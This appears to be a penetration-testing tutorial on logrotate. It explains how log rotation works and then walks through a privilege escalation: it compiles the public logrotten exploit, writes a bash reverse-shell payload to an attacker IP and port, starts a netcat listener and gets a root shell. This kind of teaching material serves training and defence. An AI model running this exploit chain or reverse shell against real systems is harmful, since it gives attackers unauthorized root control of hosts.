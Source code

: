 # Logrotate

Every Linux system produces large amounts of log files. To prevent the hard disk from overflowing, a tool called `logrotate` takes care of archiving or disposing of old logs. If no attention is paid to log files, they become larger and larger and eventually occupy all available disk space. Furthermore, searching through many large log files is time-consuming. To prevent this and save disk space, `logrotate` has been developed. The logs in `/var/log` give administrators the information they need to determine the cause behind malfunctions. Almost more important are the unnoticed system details, such as whether all services are running correctly.

`Logrotate` has many features for managing these log files. These include the specification of:

* the `size` of the log file,
* its `age`,
* and the `action` to be taken when one of these factors is reached.

```shell-session
$ man logrotate
$ # or
$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

The function of the rotation itself consists in renaming the log files. For example, new log files can be created for each new day, and the older ones will be renamed automatically. Another example of this would be to empty the oldest log file and thus reduce memory consumption.

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

```shell-session
$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:

```shell-session
$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```shell-session
$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

```shell-session
$ cat /etc/logrotate.d/dpkg

/var/log/dpkg.log {
        monthly
        rotate 12
        compress
        delaycompress
        missingok
        notifempty
        create 644 root root
}
```

To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
   * 3.8.6
   * 3.11.0
   * 3.15.0
   * 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
logger@nix02:~$ git clone https://github.com/whotwagner/logrotten.git
logger@nix02:~$ cd logrotten
logger@nix02:~$ gcc logrotten.c -o logrotten
```

Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the `IP` and `port` of our VM that we use to attack the target system.

```shell-session
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

However, before running the exploit, we need to determine which option `logrotate` uses in `logrotate.conf`.

```shell-session
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

In our case, it is the option: `create`. Therefore we have to use the exploit adapted to this function.

After that, we have to start a listener on our VM / Pwnbox, which waits for the target system's connection.

```shell-session
$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

As a final step, we run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

```shell-session
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

```shell-session
...
Listening on 0.0.0.0 9001

Connection received on 10.129.24.11 49818
# id

uid=0(root) gid=0(root) groups=0(root)
```
